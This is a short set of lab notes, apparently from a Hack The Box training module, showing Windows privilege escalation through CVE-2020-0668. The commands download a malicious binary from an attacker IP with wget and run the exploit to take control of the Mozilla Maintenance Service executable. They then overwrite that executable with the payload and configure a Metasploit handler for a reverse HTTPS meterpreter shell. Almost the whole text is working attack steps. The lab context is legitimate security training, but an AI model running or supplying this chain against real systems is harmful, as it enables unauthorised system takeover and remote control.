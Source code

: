         ```ps
        # on victim, fetch the binary
        # we will need 2 copies of the malicious file because the exploit corrupts it initially

        wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe

        wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
        ```

        ```cmd
        # run the exploit
        C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        # now check permissions of new file
        icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
        # our user has full control over this binary
        # we can now overwrite it with a non-corrupted version, the second copy, of the malicious binary

        copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
        # replace the corrupted binary with the functional copy
        ```

        ```sh
        # in attacker machine
        # create a Metasploit Resource Script - used to automate tasks
        vim handler.rc

        # launch metasploit with resource script
        sudo msfconsole -r handler.rc
        ```

        ```rc
        use exploit/multi/handler
        set PAYLOAD windows/x64/meterpreter/reverse_https
        set LHOST 10.10.14.3
        set LPORT 8443
        exploit
        ```
